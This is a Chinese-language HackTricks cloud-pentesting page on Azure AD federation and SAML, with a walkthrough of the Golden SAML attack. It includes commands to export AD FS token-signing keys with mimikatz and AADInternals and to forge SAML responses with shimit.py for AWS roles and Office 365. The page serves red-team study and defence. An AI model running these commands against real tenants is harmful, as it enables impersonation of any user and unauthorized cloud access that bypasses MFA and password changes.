 # Az - Federation

{% hint style="success" %}
学习和练习 AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}

## 基本信息

[来自文档:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**Federation** 是一组建立了 **信任** 的 **域**。信任的级别可能有所不同，但通常包括 **认证**，几乎总是包括 **授权**。一个典型的 Federation 可能包括多个组织，这些组织为共享访问一组资源建立了信任。

你可以将 **本地环境** 与 **Azure AD** 联邦，并使用此联邦进行认证和授权。这种登录方法确保所有用户 **认证都在本地进行**。这种方法允许管理员实施更严格的访问控制。可以使用 **AD FS** 和 PingFederate 进行联邦。

<figure><img src="../../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

基本上，在 Federation 中，所有 **认证** 都在 **本地** 环境中进行，用户在所有受信环境中体验 SSO。因此，用户可以使用他们的 **本地凭据** 访问 **云** 应用程序。

**Security Assertion Markup Language (SAML)** 用于在提供者之间 **交换** 所有的认证和授权 **信息**。

在任何联邦设置中，有三方：

* 用户或客户端
* 身份提供者 (IdP)
* 服务提供者 (SP)

(图片来自 https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<figure><img src="../../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

1. 最初，用户访问一个应用程序（服务提供者或 SP，例如 AWS 控制台或 vSphere web 客户端）。这一步可能会被绕过，直接将客户端引导到 IdP（身份提供者），具体取决于具体实现。
2. 随后，SP 确定适当的 IdP（例如 AD FS, Okta）进行用户认证。然后它创建一个 SAML（安全断言标记语言）AuthnRequest 并将客户端重定向到选定的 IdP。
3. IdP 接管，认证用户。认证后，IdP 生成一个 SAMLResponse 并通过用户将其转发给 SP。
4. 最后，SP 评估 SAMLResponse。如果验证成功，意味着与 IdP 存在信任关系，用户将被授予访问权限。这标志着登录过程的完成，用户可以使用该服务。

**如果你想了解更多关于 SAML 认证和常见攻击，请访问:**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## 横向移动

* AD FS 是一种基于声明的身份模型。
* "..声明只是关于用户的陈述（例如，姓名、身份、组），主要用于授权访问位于互联网任何地方的基于声明的应用程序。"
* 用户的声明写在 SAML 令牌中，并由 IdP 签名以提供机密性。
* 用户通过 ImmutableID 识别。它是全局唯一的，存储在 Azure AD 中。
* ImmutableID 存储在本地作为用户的 ms-DS-ConsistencyGuid，或可以从用户的 GUID 派生。
* 更多信息请访问 [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Golden SAML 攻击:**

* 在 ADFS 中，SAML Response 由令牌签名证书签名。
* 如果证书被泄露，可以以任何同步到 Azure AD 的用户身份认证到 Azure AD！
* 就像我们的 PTA 滥用一样，用户的密码更改或 MFA 不会有任何影响，因为我们正在伪造认证响应。
* 证书可以从具有 DA 权限的 AD FS 服务器中提取，然后可以从任何连接到互联网的机器上使用。
* 更多信息请访问 [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

**身份提供者 (IdP)** 生成 **SAMLResponse** 以授权用户登录的过程至关重要。根据 IdP 的具体实现，**响应** 可能会使用 **IdP 的私钥** **签名** 或 **加密**。此过程使 **服务提供者 (SP)** 能够确认 SAMLResponse 的真实性，确保它确实是由受信任的 IdP 发出的。

可以与 [golden ticket 攻击](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket) 类比，其中用于认证用户身份和权限的密钥（golden ticket 的 KRBTGT，golden SAML 的令牌签名私钥）可以被操纵以 **伪造认证对象**（TGT 或 SAMLResponse）。这允许冒充任何用户，授予对 SP 的未授权访问。

Golden SAML 具有某些优势：

* 它们可以 **远程创建**，无需成为相关域或联邦的一部分。
* 即使启用了 **双因素认证 (2FA)**，它们仍然有效。
* 令牌签名 **私钥不会自动更新**。
* **更改用户密码不会使已生成的 SAML 失效**。

#### AWS + AD FS + Golden SAML

[Active Directory Federation Services (AD FS)](https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402\(v=msdn.10\)) 是一种 Microsoft 服务，促进了受信业务伙伴（联邦）之间 **身份信息的安全交换**。它本质上允许域服务与联邦内的其他服务提供者共享用户身份。

由于 AWS 信任被泄露的域（在联邦中），此漏洞可以被利用以潜在地 **获取 AWS 环境中的任何权限**。此攻击需要 **用于签署 SAML 对象的私钥**，类似于 golden ticket 攻击中需要 KRBTGT。访问 AD FS 用户帐户足以获取此私钥。

执行 golden SAML 攻击的要求包括：

* **令牌签名私钥**
* **IdP 公共证书**
* **IdP 名称**
* **角色名称（要假设的角色）**
* 域\用户名
* AWS 中的角色会话名称
* Amazon 账户 ID

_只有加粗的项目是必需的。其他可以根据需要填写。_

要获取 **私钥**，需要访问 **AD FS 用户帐户**。从那里，可以使用 [mimikatz](https://github.com/gentilkiwi/mimikatz) 等工具从个人存储中 **导出私钥**。要收集其他所需信息，可以使用 Microsoft.Adfs.Powershell snapin，如下所示，确保你以 ADFS 用户身份登录：
```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
有了所有信息，可以使用 [**shimit**](https://github.com/cyberark/shimit) 伪造一个有效的 SAMLResponse 作为你想要冒充的用户**：**

{% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

### 本地 -> 云
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
也可以创建仅云用户的ImmutableID并冒充他们
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

{% hint style="success" %}
学习和练习 AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享 hacking 技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库.

</details>
{% endhint %}
